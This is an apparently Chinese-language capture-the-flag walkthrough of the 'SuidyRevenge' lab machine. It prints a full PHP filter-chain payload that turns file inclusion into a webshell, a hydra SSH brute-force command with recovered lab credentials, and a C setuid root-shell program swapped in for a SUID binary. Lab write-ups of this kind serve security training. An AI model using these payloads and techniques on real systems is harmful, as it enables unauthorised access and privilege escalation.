

# SuidyRevenge

`rustscan`扫描，发现开放`22` `80`端口


访问`80`端口提示

> Im proud to announce that "theuser" is not anymore in our servers. Our admin "mudra" is the best admin of the world. -suidy

## 目录爆破

可以得知有`mudra`用户，目录爆破没找到什么东西



在源代码发现

> "mudra" is not the best admin, IM IN!!!!
> He only changed my password to a different but I had time
> to put 2 backdoors (.php) from my KALI into /supersecure to keep the access!
>
> -theuser

找一下他留下的后门，找到了一个`simple-backdoor.php`

```bash
ffuf -u http://192.168.1.93/supersecure/FUZZ -w /Users/gongtaiyun/Desktop/secs/tools/dict/SecLists/Web-Shells/backdoor_list.txt
```


访问即可获得后门参数


使用`ls`发现了两个后门文件,`mysuperbackdoor`需要`file`参数，直接包含`simple-backdoor`执行


## php伪协议无文件木马

不知道为什么蚁剑的`CMDLINUX`连不上，尝试继续写`shell`，使用有文件包含的`mysuperbackdoor.php`，生成无文件的木马执行,使用[php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

```bash
$ python3 php_filter_chain_generator.py --chain '<?=`$_POST[1]` ?>'
[+] The following gadget chain will generate the following code : <?=`$_POST[1]` ?> (base64 value: PD89YCRfUE9TVFsxXWAgPz4)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```


## 提权

```bash
$ find / -perm -4000 2>/dev/null
/home/suidy/suidyyyyy
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/umount
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/mount
/usr/bin/violent
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
```

进入`suidy`下面，什么都没权限`sudo -l`和`capabilities提权`都没找到

```bash
$ ls -l /home
total 24
drwxrwxr-- 3 murda   murda   4096 Oct  1  2020 murda
drwxrwx--- 2 ruin    ruin    4096 Oct  1  2020 ruin
drwxrwxr-x 3 suidy   suidy   4096 Oct  2  2020 suidy
drwxrwx--- 3 theuser theuser 4096 Oct  2  2020 theuser
drwxrwx--- 3 violent violent 4096 Oct  1  2020 violent
drwxrwx--- 2 yo      yo      4096 Oct  1  2020 yo
```

用户还挺多的，但是按照之前网页的，`murda`爆破的可能性比较大

> 这里有个坑点，网页写的是mudra，但是home目录下是murda，以home目录为主，我就说爆半天出不来是个啥情况

使用`hydra`

```bash
$ hydra -l murda -P ~/Desktop/secs/tools/dict/rockyou.txt ssh://192.168.1.93
```


```
murda/iloveyou
```


根据提示还是继续爆`theuser`，半天没出，利用首页给的提示用`different`成功登录，然后就可以执行`suidy`目录下的`suidyyyyy`获得`suidy`权限

```bash
$ cd /home/suidy/
theuser@suidyrevenge:/home/suidy$ ./suidyyyyy
suidy@suidyrevenge:/home/suidy$ whoami
suidy
$ cat note.txt
I know that theuser is not here anymore but suidyyyyy is now more secure!
root runs the script as in the past that always gives SUID to suidyyyyy binary
but this time also check the size of the file.
WE DONT WANT MORE "theuser" HERE!.
WE ARE SECURE NOW.

-suidy
```

远程下载`suidyyyy`文件分析


说是会检测大小，那就写个差不多的

## 文件替换提权

```c
#include<stdlib.h>

int main(){
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
}
```

```bash
$ gcc exp.c -o exp
$ cp exp /home/suidy/suidyyyyy
$ cd /home/suidy
# 多执行几次
$ ./suidyyyyy
root@suidyrevenge:/home/suidy# whoami
root
```

